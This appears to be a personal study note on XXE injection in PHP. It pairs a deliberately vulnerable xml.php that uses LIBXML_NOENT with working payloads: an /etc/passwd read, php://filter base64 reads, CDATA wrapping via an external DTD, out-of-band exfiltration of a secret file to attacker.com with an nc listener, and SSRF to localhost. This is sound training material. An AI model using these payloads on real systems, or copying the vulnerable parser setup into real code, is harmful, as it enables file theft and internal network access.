






> [!info] Improper Restriction of XML External Entity Reference  
> **CWE-611: Improper Restriction of XML External Entity Reference**
> 
> **XXE (XML External Entity Injection)** is a vulnerability that occurs when an application processes attacker-controlled XML and the XML parser allows external entity resolution.
> 
> XXE can potentially lead to:
> 
> - Local File Disclosure
>     
> - Server-Side Request Forgery (SSRF)
>     
> - Access to internal services
>     
> - Sensitive information disclosure
>     
> - Denial of Service
>     
> 
> The vulnerability is not caused by XML itself. The problem is the combination of **untrusted XML input** and an **insecure XML parser configuration**.

![[Pasted image 20260811162254.png]]

## What is XXE?

**XML External Entity Injection (XXE)** occurs when an attacker can control XML input and cause the XML parser to resolve an external entity.

```mermaid
flowchart TD
    A["Attacker-Controlled XML"] --> B["Web Application"]
    B --> C["XML Parser"]
    C --> D{"External Entity Resolution"}
    D --> E["Local Resource"]
    D --> F["Internal Service"]
    D --> G["External Server"]
````

---

# Vulnerable PHP Configuration

> [!danger] Vulnerable Example
> 
> **File:** `xml.php`
> 
> ```php
> <?php
> 
> $myXMLData = file_get_contents('php://input');
> 
> $data = simplexml_load_string(
>     $myXMLData,
>     null,
>     LIBXML_NOENT
> ) or die("Error: Cannot create object");
> 
> echo $data->username, "\n";
> echo $data->email, "\n";
> echo $data->instagram, "\n";
> ```

### What Happens?

The application:

1. Reads XML from the HTTP request.
2. Passes the XML to `simplexml_load_string()`.
3. Enables entity substitution with `LIBXML_NOENT`.
4. Outputs values from the parsed XML.

> [!warning] Important
> 
> `LIBXML_NOENT` enables **entity substitution**.
> 
> The security issue arises when attacker-controlled XML can define entities and the parser is also able to resolve unsafe external entities/resources.
> 
> `simplexml_load_string()` by itself does **not** automatically mean that every application using it is vulnerable to XXE.

```mermaid
flowchart TD
    A["XXE"] --> B["In-Band XXE"]
    A --> C["Blind XXE"]
    A --> D["Local Resource Disclosure"]
    A --> E["XXE → SSRF"]
    A --> F["OOB Interaction"]

    D --> G["Sensitive Information Disclosure"]
    E --> H["Internal Services"]
    E --> I["Network-Accessible Resources"]
```

> [!info] Main Impacts
> 
> - Local File / Resource Disclosure
>     
> - SSRF
>     
> - Access to internal services
>     
> - Sensitive information disclosure
>     
> - Out-of-Band interaction
>     
> - Denial of Service in some parser configurations
>     

## XXE Local File Disclosure

A common impact of XXE is **Local File Disclosure**.

payload Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY bar SYSTEM "/etc/passwd">
]>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>&bar;</instagram>
</owasp>
```

The important part is:

```xml
<!ENTITY bar SYSTEM "/etc/passwd">
```

The entity is then referenced:

```xml
&bar;
```

```bash
# curl -H "content-type:application/xml" example.com/xml.php -d "$(cat .\payloadxml.txt)"
```

If the parser resolves the entity, it may attempt to read the referenced resource.

If the application includes the resolved value in its response, the attacker may receive the file contents.



## Local File Disclosure via XXE Problem

> [!abstract] The Problem
>
> Directly reading a local file through XXE does not always produce clean or usable output.
>
> For example, consider a file containing:
>
> ```php
> <?php
> echo "<h1>Hello</h1>";
> ?>
> ```
>
> The file contains XML-sensitive characters such as:
>
> ```text
> <
> >
> &
> ```
>
> These characters have special meaning within XML. If the file contents are substituted directly into an XML document, the parser may interpret parts of the content as XML markup rather than plain text.

> [!warning] Possible Results
>
> This can result in:
>
> - XML parsing errors
> - Truncated or incomplete output
> - Invalid XML
> - Unexpected parser behavior
> - Failure to retrieve the expected file contents

### Why Does This Happen?

The problem is not necessarily that the file cannot be accessed.

The issue can occur **after the resource is read**, when its contents are interpreted within the XML parsing context.

```mermaid
flowchart TD
    A["Local File"] --> B["File Contents"]
    B --> C["XML Entity Substitution"]
    C --> D["XML Parser"]
    D --> E{"XML-Sensitive Characters?"}
    E -->|Yes| F["Possible Parsing Error"]
    E -->|No| G["Content May Be Parsed Successfully"]
    F --> H["Invalid / Truncated Output"]
    G --> I["Expected Content"]
````

> [!tip] Key Point
> 
> **Local File Disclosure** and **successful extraction of usable file contents** are not always the same thing.
> 
> The exact result depends on the XML parser, entity-processing behavior, the XML document structure, and how the resulting entity value is handled.

---

# XXE + `php://filter`

> [!info] PHP Stream Wrapper
> 
> In PHP environments, the `php://filter` stream wrapper can transform resource contents before they are returned.
> 
> A common transformation is:
> 
> ```text
> convert.base64-encode
> ```
> 
> Conceptually:
> 
> ```mermaid
> flowchart LR
>     A["Local Resource"] --> B["php://filter"]
>     B --> C["Base64 Encoding"]
>     C --> D["Encoded Representation"]
>     D --> E["XML Parser"]
> ```

The important part is:

```text
php://filter/read=convert.base64-encode/resource=<RESOURCE>
```

Conceptually, an entity can reference such a resource:

```xml
<!ENTITY bar SYSTEM "php://filter/read=convert.base64-encode/resource=<RESOURCE>">
```

The resulting value can then be represented as Base64 rather than containing the original XML-sensitive characters directly.

> [!danger] Vulnerable PHP
> 
> **File:** `xml.php`
> 
> ```php
> <?php
> 
> $myXMLData = file_get_contents('php://input');
> 
> $data = simplexml_load_string(
>     $myXMLData,
>     null,
>     LIBXML_NOENT
> ) or die("Error: Cannot create object");
> 
> echo $data->username, "\n";
> echo $data->email, "\n";
> echo $data->instagram, "\n";
> ```

### Why Is It Vulnerable?

`LIBXML_NOENT` enables XML entity substitution.

When attacker-controlled XML can define external entities and the PHP environment permits the relevant stream wrapper, an external entity may reference a `php://filter` resource.

In this scenario:



> [!info] Important Distinction
> 
> The XXE vulnerability provides the **entity-resolution mechanism**.
> 
> `php://filter` provides the **PHP-specific transformation**.
> 
> Therefore, `php://filter` is not an XXE feature itself.

### XML Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY bar SYSTEM
        "php://filter/read=convert.base64-encode/resource=<RESOURCE>">
]>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>&bar;</instagram>
</owasp>
```

### Request

```bash
curl -H "Content-Type: application/xml" \
     http://localhost/xml.php \
     -d @payload.xml
```

### Decode the Result

Once a Base64-encoded value has been obtained:

```bash
echo 'BASE64_DATA' | base64 -d
```

> [!warning] PHP Dependency
> 
> `php://filter` is **PHP-specific** and is not an XML or XXE feature by itself.
> 
> Its behavior depends on:
> 
> - PHP configuration
>     
> - Available stream wrappers
>     
> - The XML parser
>     
> - PHP/libxml version
>     
> - Whether the selected resource can be accessed
>     

> [!tip] Key Point
> 
> The conceptual chain is:
> 
> **XXE → php://filter → Local Resource → Base64 Encoding → File Disclosure**
> 
> The underlying vulnerability remains **XXE**, while **Local File Disclosure** is the resulting impact.

---

# CDATA

> [!info] CDATA
> 
> **CDATA (Character Data)** allows XML-sensitive characters to be treated as character data rather than XML markup.
> 
> ```xml
> <![CDATA[
>     <h1>Hello</h1>
>     <script>test</script>
> ]]>
> ```
> 
> Conceptually:
> 
> ```text
> FILE CONTENT
> ```
> 
> becomes:
> 
> ```xml
> <![CDATA[
>     FILE CONTENT
> ]]>
> ```

The purpose is to prevent characters such as `<`, `>` and `&` from being interpreted as normal XML markup.

---

## Why Parameter Entities?

> [!warning] Entity Expansion
> 
> A tempting approach is to construct the CDATA section directly using ordinary entities:
> 
> ```xml
> <?xml version="1.0" encoding="UTF-8"?>
> 
> <!DOCTYPE Data [
>     <!ENTITY start "<![CDATA[">
>     <!ENTITY file SYSTEM "file:///tmp/secret.txt">
>     <!ENTITY end "]]>">
>     <!ENTITY All "&start;&file;&end;">
> ]>
> 
> <owasp>
>     <username>adolfcna</username>
>     <email>example@gmail.com</email>
>     <instagram>&All;</instagram>
> </owasp>
> ```
> 
> This construction is not reliably usable for this purpose because of the rules governing entity declarations, expansion, and DTD processing.
> 
> **Parameter entities** are useful because they are processed within the DTD and can be used when constructing more complex entity definitions.

---

## External DTD

> [!abstract] External DTD
> 
> For advanced XXE research, entity definitions can be placed in an external DTD.
> 
> **File:** `maliciousdtd.dtd`
> 
> ```xml
> <!ENTITY All "%start;%file;%end;">
> ```

The XML document can reference the external DTD:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE Data [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "/tmp/secret.txt">
    <!ENTITY % end "]]>">

    <!ENTITY % dtd SYSTEM "http://LAB-SERVER/maliciousdtd.dtd">
    %dtd;
]>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>&All;</instagram>
</owasp>
```

> [!info] External DTD Loading
> 
> The relevant mechanism is:
> 
> ```xml
> <!ENTITY % dtd SYSTEM "http://LAB-SERVER/maliciousdtd.dtd">
> %dtd;
> ```
> 
> The XML parser loads the external DTD and processes its declarations.

### Request

```bash
curl -H "Content-Type: application/xml" \
     http://localhost/xml.php \
     -d @payload.xml
```

---

## CDATA Expansion Concept



Conceptually, the parser is being guided toward:

```xml
<![CDATA[
    FILE CONTENT
]]>
```

rather than treating XML-sensitive characters in the resource as normal XML markup.

---

> [!warning] Parser Dependency
> 
> CDATA-based techniques are **parser-dependent** and may not work with every XML parser or configuration.
> 
> Successful processing can depend on:
> 
> - External DTD support
>     
> - Parameter entity expansion
>     
> - External resource resolution
>     
> - Entity substitution
>     
> - Resource access
>     
> 
> A technique that works against one parser may fail against another.

> [!tip] Key Point
> 
> CDATA does **not** bypass XXE itself. The underlying XXE vulnerability already exists.
> 
> Instead, CDATA addresses a **parsing problem during local resource disclosure** when returned content contains characters such as `<`, `>` or `&` that could otherwise be interpreted as XML markup.
> 
> ```mermaid
> flowchart LR
>     A["XXE"] --> B["Local Resource"]
>     B --> C["File Content"]
>     C --> D["CDATA"]
>     D --> E["Character Data"]
>     E --> F["XML Parser"]
>     F --> G["Disclosure"]
> ```
> 


## Normal / In-Band XXE

The first major category is **In-Band XXE**.

In this situation, the result of entity resolution is returned directly through the application's normal response.



For example, if an external entity references a readable local resource and the application reflects that value in the response, the attacker can directly see the result.

This is why In-Band XXE is generally easier to identify and exploit.

## Blind XXE + Out-of-Band (OOB)

The second major category is **Blind XXE**.

In Blind XXE, the application processes the external entity but does not return the resolved data directly in the HTTP response.

For example:

```text
Attacker
    ↓
Web Application
    ↓
XML Parser
    ↓
External Resource
```

The attacker does not see the resource contents in the application's response.

Therefore, another communication channel may be necessary.

This is where **Out-of-Band (OOB)** techniques become useful.

An **Out-of-Band (OOB) XXE** technique uses an external server controlled by the tester to detect interactions from a vulnerable application.




Unlike **In-Band XXE**, the vulnerable application does not need to return the result directly. Instead, the interaction occurs through an external channel:

```text
Application
    ↓
External Server
    ↓
Attacker
```

An external interaction can confirm that the XML parser attempted to resolve an external entity or resource.

> [!info] XXE Types  
> **In-Band XXE:** The parsed data is returned through the application's response.
> 
> **Blind XXE:** The application does not directly return the result of the entity resolution.
> 
> **OOB XXE:** An external interaction channel is used to detect or potentially retrieve information from the vulnerable parser.

> [!danger] PHP — Vulnerable Example  
> **File:** `xml.php`
> 
> ```php
> <?php
> 
> $myXMLData = file_get_contents('php://input');
> 
> $data = simplexml_load_string(
>     $myXMLData,
>     null,
>     LIBXML_NOENT
> ) or die("Error: Cannot create object");
> 
> //echo $data->username, "\n";
> //echo $data->email, "\n";
> //echo $data->instagram, "\n";
> ```

> [!warning] Why Is It Vulnerable?  
> `LIBXML_NOENT` enables **XML entity substitution**. When attacker-controlled XML is parsed with external entity processing enabled, the application may be vulnerable to **XXE (XML External Entity)** attacks.

> [!example] XML Payload
> 
> ```xml
> <?xml version="1.0" encoding="UTF-8"?>
> 
> <!DOCTYPE foo [
>     <!ELEMENT foo ANY>
>     <!ENTITY bar SYSTEM "http://abdcdfdithgc.oastify.com">
> ]>
> 
> <owasp>
>     <username>adolfcna</username>
>     <email>example@gmail.com</email>
>     <instagram>&bar;</instagram>
> </owasp>
> ```

> [!example] HTTP Request
> 
> ```bash
> curl -H "content-type:application/xml" \
>      example.com/xml.php \
>      -d "$(cat .\payloadxml.txt)"
> ```

> [!danger] Potential Impact
> 
> - **XXE (XML External Entity)**
>     
> - **OOB interaction** if the server can make external network requests
>     
> - Potential **local resource/file disclosure**, depending on parser configuration
>     
> - Potential **SSRF**, depending on the application's environment and network configuration
>     

> [!tip] Key Point  
> The vulnerability is primarily caused by parsing attacker-controlled XML with external entity processing enabled through `LIBXML_NOENT`.
> 
> `simplexml_load_string()` by itself does **not** necessarily make an application vulnerable to XXE. The parser configuration and how external entities are handled are the important factors.

> [!example] XML Payload
> 
> ```xml
> <?xml version="1.0" encoding="UTF-8"?>
> 
> <!DOCTYPE foo [
>     <!ELEMENT foo ANY>
> 
>     <!ENTITY % EDA SYSTEM "http://attacker.com/evil.dtd">
>     %EDA;
>     %final;
> ]>
> 
> <owasp>
>     <username>adolfcna</username>
>     <email>example@gmail.com</email>
>     <instagram>&Exploit;</instagram>
> </owasp>
> ```

> [!example] External DTD
> File name:  `evil.dtd`
> 
> ```xml
> <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/tmp/secret.txt">
> <!ENTITY % final "<!ENTITY Exploit SYSTEM 'http://attacker.com:1234/?d=%data;'>">
> ```

> [!example] HTTP Request
> 
> ```bash
> curl -H "Content-Type: application/xml" \
>      http://example.com/xml.php \
>      -d "$(cat ./payloadxml.txt)"
> ```

> [!example] Listener
> 
> ```bash
> nc -lvnp 1234
> ```

> [!tip] Flow
> 
> ```mermaid
> flowchart LR
>     A["XML Payload"] --> B["Web Application"]
>     B --> C["XML Parser"]
>     C --> D["External DTD"]
>     D --> E["Parameter Entity Expansion"]
>     E --> F["php://filter"]
>     F --> G["Base64-Encoded Resource"]
>     G --> H["External Request"]
>     H --> I["Listener"]
> ```
## SSRF via XXE

External entities do not necessarily have to reference local files.

If the XML parser is configured to resolve external entities and supports network-based URI schemes, an external entity can cause the server to make a network request.

For example:

```xml
<!ENTITY bar SYSTEM "http://localhost:9000/secret">
```

When the parser resolves:

```xml
&bar;
```

the server may attempt to request:

```text
http://localhost:9000/secret
```

This can create an **XXE-to-SSRF** scenario, where the XML parser becomes the mechanism for making server-side requests.



> [!info] Potential Targets  
> Depending on the server's network access, potential targets may include:
> 
> - Internal applications
>     
> - Internal APIs
>     
> - Local services
>     
> - Cloud metadata services
>     
> - Other network-accessible services
>     

> [!warning] Important  
> XXE-to-SSRF does **not** automatically mean that every internal service is reachable.
> 
> Exploitability depends on factors such as:
> 
> - Network connectivity and firewall rules
>     
> - XML parser behavior
>     
> - Supported URI schemes
>     
> - DNS resolution
>     
> - Application privileges
>     
> - Server-side network restrictions
>     

> [!danger] PHP — Vulnerable Example  
> **File:** `xml.php`
> 
> ```php
> <?php
> 
> $myXMLData = file_get_contents('php://input');
> 
> $data = simplexml_load_string(
>     $myXMLData,
>     null,
>     LIBXML_NOENT
> ) or die("Error: Cannot create object");
> 
> echo $data->username, "\n";
> echo $data->email, "\n";
> echo $data->instagram, "\n";
> ```

> [!warning] Vulnerable Configuration  
> The use of `LIBXML_NOENT` enables XML entity substitution. Combined with attacker-controlled XML and a parser capable of resolving external network entities, this may allow the application to initiate server-side requests.

> [!example] XML Payload
> 
> ```xml
> <?xml version="1.0" encoding="UTF-8"?>
> 
> <!DOCTYPE foo [
>     <!ELEMENT foo ANY>
>     <!ENTITY bar SYSTEM "http://localhost:9000/secret">
> ]>
> 
> <owasp>
>     <username>adolfcna</username>
>     <email>example@gmail.com</email>
>     <instagram>&bar;</instagram>
> </owasp>
> ```

